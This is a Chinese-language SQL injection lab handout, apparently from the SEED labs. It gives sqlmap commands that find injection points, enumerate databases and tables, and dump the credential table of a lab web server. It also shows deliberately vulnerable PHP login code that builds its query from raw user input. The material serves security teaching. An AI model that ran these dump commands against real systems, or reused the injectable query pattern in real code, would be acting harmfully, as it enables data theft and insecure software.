 安装好后，执行下面的命令可以帮助你了解 sqlmap 的相关命令

```
sqlmap -h  或者 sqlmap --h
```

下面是本次实验用到的sqlmap命令，通过这几条命令可以将我们搭建的web网站服务器的数据库和数据表信息找出来，并能够检测到web的注入点：

```
//检测某个url存在的漏洞，url必须得有接收参数的地方（例如：username=），否则的话就不存在漏洞。
//可以看到很多提示信息，黄色[WARNING]表示不存在注入，加粗的绿色[INFO]信息大家关注是可能存在问题的点
sqlmap -u "http://www.seed-server.com/unsafe_home.php?username=admin&Password=" 

//读取某个url用到的数据库系统中存在的数据库名称
sqlmap -u "http://www.seed-server.com/unsafe_home.php?username=admin&Password=" --dbs

//读取某个数据库中的所有表
sqlmap -u "http://www.seed-server.com/unsafe_home.php?username=admin&Password=" -D 数据库名 --tables

//将某个表中的所有信息dump下来
sqlmap -u "http://www.seed-server.com/unsafe_home.php?username=admin&Password=" -D 数据库名 -T 数据表名 --dump
```

**任务1.2** 运行上述命令后，可以将credential中的所有信息dump下来。请提供你的结果截图，并根据第一条命令找出可以注入的信息点。

## 2 任务2：SELECT 语句下的注入攻击

SQL注入基本上是一种技术，通过这种技术，攻击者可以执行他们自己的恶意SQL语句，通常称为`payload`。通过恶意SQL语句，攻击者可以从受害数据库中窃取信息;更糟糕的是，他们可能会对数据库进行更改。我们的员工管理web应用程序有SQL注入漏洞，这里模仿了开发人员经常犯的错误。

我们将使用www.seed-server.com的登录页面来完成这项任务。登录界面如图1所示。它要求用户提供用户名和密码。web应用程序基于这两段数据验证用户身份，因此只有知道密码的员工才能登录。作为攻击者，你的工作是在不知道任何员工的凭证的情况下登录到web应用程序。

<center><img src="../assets/image-20230409152607019.png" width = 600></center>

为了帮助你完成这项任务，我们将解释如何在web应用程序中实现身份验证。

不安全的PHP代码`home.php`位于`/var/www/SQL_Injection`目录下，用于执行用户身份验证。下面的代码片段显示了如何验证用户。

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
			nickname, Password
		FROM credential
		WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
// The following is Pseudo Code
if(id != NULL) {
	if(name==’admin’) {
		return All employees information;
	} else if (name !=NULL){
		return employee information;
	}
} else {
Authentication Fails;
}

```
